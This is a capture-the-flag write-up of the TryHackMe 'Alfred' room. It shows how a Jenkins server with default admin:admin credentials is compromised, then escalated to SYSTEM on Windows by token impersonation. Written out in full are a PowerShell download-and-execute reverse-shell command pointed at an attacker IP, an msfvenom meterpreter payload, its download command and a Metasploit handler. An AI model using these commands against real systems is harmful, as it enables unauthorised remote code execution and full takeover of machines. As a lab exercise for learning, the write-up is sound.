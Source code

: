 ```yaml
---
title: "Alfred THM"
description: "My writeup of the TryHackMe room [Alfred](https://tryhackme.com/room/alfred)"
date: 2023-12-26
image: https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png
math:
license:
hidden: false
comments: true
draft: false
tags:
    - windows
    - privesc
    - jenkins
categories:
    - room
    - easy
---
```


## Initial Access

Exploiting Jenkins,

Jenkins is a tool used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it.

First of all I am going to scan the machine, for this I only know that the machine does not respond to ping, and I only need TCP ports,

```bash
nmap -sT -Pn 10.10.207.2

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-26 10:41 EST
Nmap scan report for 10.10.207.2
Host is up (0.058s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

This is the output.

- Port 80 is hosting a site, which tells me important informations:

    ![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled.png)


I got a possible username and password: Bruce Wayne

And an email: alfred@wayneenterprises.com

But that’s it for now.

Port 8080 is where Jenkins is hosted.

Upon entering the page, there is a login portal, after trying “Bruce Wayne” and several other password, I am reminded that this is in the description of the room:

“common misconfiguration on a widely used automation server”

So i tried admin:admin, which worked.

Now I got control over Jenkins!

The first thing to do is searching for some type of tool that I can use to get a reverse shell:

https://github.com/samratashok/nishang

First I tried with the script console.

But it didn’t work because it can’t download the script like that, so I found a configure page under the project.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Alfred-writeup-THM/main/03c7fd6c-be68-4659-9c82-37743811ebdb_Export-f74cfa2b-d9f8-4ed2-b2f2-f5d8cdd8251d/Alfred%20ebebc7814aa2443aac5154421745f1d8/Untitled%201.png)

Because it has RDP open we can assume that the machine is running Windows.

I am going to use this script: “https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1”

Which I downloaded in my machine, after that I started a python server: (this will be started in the same directory as the script, that’s because jenkins will download the script thanks to the python server)

```bash
python3 -m http.server 8000
```

Then I start a listener:

```bash
nc -lvnp 4444
```

And then used this script in the script console:

```bash
*powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-python-server-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.20.116 -Port 4444*
```

After that I build the config we got a shell!

```bash
nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.207.2] 49236
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>
```

We can see that we are the user alfred\bruce

```bash
PS C:\Program Files (x86)\Jenkins\workspace\project>whoami
alfred\bruce
```

Now I need the user flag, which I found in the user Desktop:

PS C:\Users\bruce\Desktop> ls

```bash
PS C:\Users\bruce\Desktop> ls

Directory: C:\\Users\\bruce\\Desktop

Mode                LastWriteTime     Length Name

a--- 10/25/2019 11:22 PM 32 user.txt
```

Now, I am going to switch this scuffed revshell in an imrpoved version, we can do this using the meterpreter shell.

## Upgrading the shell

Leave your previous connection **OPEN**.

We create our payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.20.116 LPORT=4555 -f exe -o revshellps1.exe`

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.18.20.116:8000/revshellps1.exe','revshellps1.exe')"`

Now that we have done that, we need to use Metasploit:

```bash
**use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST Your_Machine_IP
LHOST => 10.18.20.116

msf6 exploit(multi/handler) > set LPORT Your_Port(Same as the one you used for creating the payload)
LPORT => 4555
msf6 exploit(multi/handler) > run
```

Once we run, we nee to go in our previous connection(The one we created with nc) and start the process:

```bash
Start-Process "shell-name.exe”
```

You will find the shell under: `C:\Program Files (x86)\Jenkins\workspace\project`

Now that we have a stable shell, we can try to gain major privileges!

## Privilege Escalation

First thing we do is:

`whoami /priv`

With this we can see all the Enabled privileges

(SeDebugPrivilege, SeImpersonatePrivilege) Those are the one that we find interessing.

Then we check for the available tokens:

`impersonate_token`

And we can see the BUILTIN\Administrators token available

So we try to impersonate the token:

```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user **NT AUTHORITY\SYSTEM**
```

Even though you have a higher privileged token, you may not have the permissions of a privileged user.

To go around that we can migrate to a process with the correct privileges.

First we use `ps` to view the processes, then we grab the PID of services.exe, which we pick because is it normally a ssafe option.

and we migrate to that PID:

```bash
migrate PID-OF-PROCESS
```

Now we should have full SYSTEM privileges!!

